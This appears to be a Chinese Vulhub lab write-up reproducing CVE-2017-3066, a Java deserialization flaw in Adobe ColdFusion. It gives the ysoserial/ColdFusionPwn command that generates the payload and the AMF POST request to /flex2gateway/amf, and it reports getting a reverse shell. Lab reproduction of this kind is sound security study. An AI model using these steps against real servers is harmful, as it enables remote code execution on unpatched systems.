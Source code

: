 # Adobe ColdFusion 反序列化漏洞 CVE-2017-3066

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/awesome_poc' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf。

将POC作为数据包body：Burpsuite右键→Paste From File→选择poc.ser

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

**至此，复现不成功，上传poc.ser之后POST，/tmp/awesome_poc文件没有创建完成**

**补充：与burpsuite版本有关，老版本的burpsuite可以复现成功**。

**Burpsuite+Postman联动复现也不成功。操作步骤可参考：https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**

------

![](./images/202202212052978.png)

进入容器中，发现`/tmp/success`已成功创建：

![](./images/202202212053950.png)

将POC改成[反弹命令](https://www.bugku.net/runtime-exec-payloads/)，成功拿到shell：

![](./images/202202212053074.png)

